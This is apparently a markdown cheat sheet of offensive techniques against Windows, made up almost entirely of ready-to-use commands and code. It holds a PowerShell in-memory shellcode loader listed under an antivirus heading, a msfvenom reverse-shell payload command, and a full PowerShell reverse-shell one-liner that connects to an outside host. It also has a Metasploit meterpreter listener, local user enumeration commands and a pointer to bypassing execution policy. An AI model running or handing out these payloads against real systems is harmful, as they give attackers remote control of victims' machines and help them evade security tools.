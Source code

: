 # Microsoft Windows attacks

## Cmd

```
forfiles /P C:\Windows /S /M *.txt /c "cmd /c echo @PATH"
find /c /v "" file.txt
net user
net localgroup
```

## WebDAV

```
pip install wsgidav
mkdir mywebdav
.local/wsgidav --host=0.0.0.0 --auth=anonymous --port 80 --root ./mywebdav
```

## AV

### Powershell

Get help:

```
Get-Help somecommand
Get-Command -ParameterName ComputerName
Get-Command -name "*name*"
```

Find file:
```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
```

Base64: https://stackoverflow.com/questions/15414678/how-to-decode-a-base64-string
```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("somebase64string"))
[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("sometext"))
```

Memory injection

- https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process
- https://blog.f-secure.com/memory-injection-like-a-boss/

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc =
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = someshellcode;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

### Shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=$AttackerIp LPORT=$AttackerPort -f powershell -v sc
```

### One-liner

- source: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
- command:
```
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- base64: https://github.com/darkoperator/powershell_scripts/blob/master/README
- execution policy (see ByPAss): https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.3

## Shellter

- link: https://www.shellterproject.com/

### Msf listener

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $AttackerIP;set LPORT $AttackerPort;run;"
```



